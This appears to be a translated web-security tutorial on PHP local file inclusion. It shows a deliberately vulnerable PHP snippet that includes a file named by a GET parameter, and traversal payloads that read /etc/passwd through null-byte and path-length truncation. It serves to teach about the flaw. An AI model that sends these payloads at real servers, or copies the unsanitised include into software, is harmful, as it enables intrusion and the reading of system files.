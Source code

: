 ## File contains


Common functions that cause files to be included are:


- PHP：`include()`，`include_once()`，`require()`，`require_once()`，`fopen()`，`readfile()` 等

- JSP Servlet ： `ava.io.File ()` ， `java.io.FileReader ()` 等
- ASP：`includefile`，`includevirtual` 等



When PHP includes a file, it will be executed as PHP code, regardless of the type of file.


### Local file contains


The local file contains, Local File Inclusion, LFI.


```php

<?php

$file = $_GET['file'];

if (file_exists('/home/wwwrun/'.$file.'.php')) {

  include '/home/wwwrun/'.$file.'.php';

}

?>

```



The above code has a local file containing, and the contents of the `/etc/passwd` file can be read by truncating %00.


- `%00` truncation


  ```

  ?file=../../../../../../../../../etc/passwd%00

  ```



Requires `magic_quotes_gpc=off`, PHP is less than 5.3.4.


- Path length truncation


  ```

  ?file=../../../../../../../../../etc/passwd/././././././.[…]/./././././.

  ```
